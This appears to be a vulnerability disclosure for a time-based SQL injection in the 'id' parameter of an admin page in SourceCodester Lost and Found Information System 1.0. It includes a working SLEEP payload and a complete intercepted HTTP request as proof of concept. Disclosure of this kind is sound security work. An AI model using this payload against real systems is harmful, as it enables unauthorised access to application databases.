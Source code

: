 #SOURCECODESTER LOST AND FOUND INFORMATION SYSTEM 1.0 GET PARAMETER inquiries/view_inquiry ID SQL INJECTION

##Vendor Homepage:
https://www.sourcecodester.com

##Software Link:
LOST AND FOUND INFORMATION SYSTEM
https://www.sourcecodester.com/php/16525/lost-and-found-information-system-using-php-and-mysql-db-source-code-free-download.html

##Tested On:
Window 11, XAMPP

##Affected Page:
php-lfis/admin/?page=inquiries/view_inquiry&id=

##Description:
A vulnerability SQL injection was found in SourceCodester Lost and Found Information System 1.0. It has been classified as critical. SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database.

##Proof of Concept:
###1. Visit page: /php-lfis/admin/?page=inquiries/view_inquiry&id=1
###2. Intercept request and inject payload sql query in param 'id' to sleep 5 second: 
```
'+AND+(SELECT+1200+FROM+(SELECT(SLEEP(5)))pTou)+AND+'str'%3d'str
```
![image](https://github.com/nguyendinhmanh1111/CVE2023/assets/76999751/f960b8ed-1046-424f-9a6a-2c4c77183eaa)
####Request:
```
GET /php-lfis/admin/?page=inquiries/view_inquiry&id=1'+AND+(SELECT+1200+FROM+(SELECT(SLEEP(5)))pTou)+AND+'str'%3d'str HTTP/1.1
Host: 192.168.0.106
sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/php-lfis/admin/?page=items
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=0bb98mm26ain42g80sto1khd1r
Connection: close˛
```
